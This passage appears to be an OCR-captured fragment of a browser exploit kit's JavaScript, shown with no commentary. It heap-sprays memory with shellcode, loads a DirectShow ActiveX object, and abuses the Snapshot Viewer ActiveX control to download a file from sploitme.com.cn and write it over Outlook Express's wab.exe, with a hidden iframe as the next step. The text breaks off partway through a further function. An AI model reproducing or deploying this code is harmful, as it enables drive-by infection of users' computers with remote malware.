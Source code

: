 ```javascript
    var fillblock = bigblock.substring(0, slackspace);
    var block = bigblock.substring(0, bigblock.length - slackspace);
    while (block.length + slackspace < 0x40000) {
        block = block + block + fillblock;
    }var memory = new Array();
    for (var i = 0; i < 350; i++) {
        memory[i] = block + shellcode;
    }try {
        var obj = document.createElement('object');
        document.body.appendChild(obj);
        obj.width = '1';
        obj.height = '1';
        obj.data = './directshow.php';
        obj.classid = 'clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
        setTimeout("if (CheckIP()){ Complete(); } else { snapshot(); }", 1000);
    } catch (e) {
        snapshot();
    }
}function snapshot() {
    var x;
    var obj;
    var mycars = new Array();
    mycars[0] = 'c:/Program Files/Outlook Express/wab.exe';
    mycars[1] = 'd:/Program Files/Outlook Express/wab.exe';
    mycars[2] = 'e:/Program Files/Outlook Express/wab.exe';
    try {
        var obj = new ActiveXObject('snpvw.Snapshot Viewer Control.1');
    } catch (e) {
        try {
            var obj = document.createElement('object');
            obj.setAttribute('classid', 'clsid:F0E42D50-368C-11D0-AD81-00A0C90DC8D9');
            obj.setAttribute('id', 'obj');
            obj.setAttribute('width', '1');
            obj.setAttribute('height', '1');
            document.body.appendChild(obj);
        } catch (e) {}
    }try {
        if (obj = '[object]') {
            for (x in mycars) {
                obj = new ActiveXObject('snpvw.Snapshot Viewer Control.1');
                var buf = mycars[x];
                obj.Zoom = 0;
                obj.ShowNavigationButtons = false;
                obj.AllowContextMenu = false;
                obj.SnapshotPath = 'http://sploitme.com.cn/fg/load.php?e=6';
                try {
                    obj.CompressedPath = buf;
                    obj.PrintSnapshot();
                    var snpelement = document.createElement('iframe');
                    snpelement.setAttribute('id', 'snapiframe');
                    snpelement.setAttribute('src', 'about:blank');
                    snpelement.setAttribute('width', 1);
                    snpelement.setAttribute('height', 1);
                    snpelement.setAttribute('style', 'display:none;');
                    document.body.appendChild(snpelement);
                    setTimeout("document.getElementById('snapiframe').src = 'ldap://';", 3000);
                } catch (e) {}
            }
        }
    } catch (e) {}com();
}function com() {
    try {
        var obj = document.createElement('object');
```